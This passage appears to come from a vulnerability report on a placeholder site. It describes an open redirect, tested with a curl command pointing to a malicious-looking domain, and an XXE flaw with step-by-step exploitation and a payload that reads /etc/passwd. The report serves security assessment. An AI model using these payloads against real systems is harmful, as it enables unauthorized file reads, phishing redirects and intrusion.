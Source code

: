#### Command Examples

```bash
curl -I "http://example.com/redirect?url=https://malicious-site.com"
```

#### Required Tools

- Web browser
- curl
- Burp Suite

#### Potential Impact

- Phishing attacks against users
- Redirection to malware distribution sites
- Credential theft through fake login pages
- Bypassing security filters that trust the original domain
- Social engineering assistance

---

### XML External Entity (XXE) Processing (High)

**Affected Component:** http://example.com/api/import (Unknown parameter)

**Description:** An attacker provides XML input containing references to external entities that can access local files, internal systems, or cause denial of service. This can lead to sensitive information disclosure, server-side request forgery, or system crash.

#### Step-by-Step Exploitation

1. Identify XML input point at: http://example.com/api/import
2. Craft a malicious XML payload with XXE
3. Submit the payload to the vulnerable endpoint
4. Check for data extraction or server responses

#### Example Payloads

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<test>&xxe;</test>
```

#### Code Examples

**XML:**
```xml

<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<test>&xxe;</test>
```

#### Command Examples
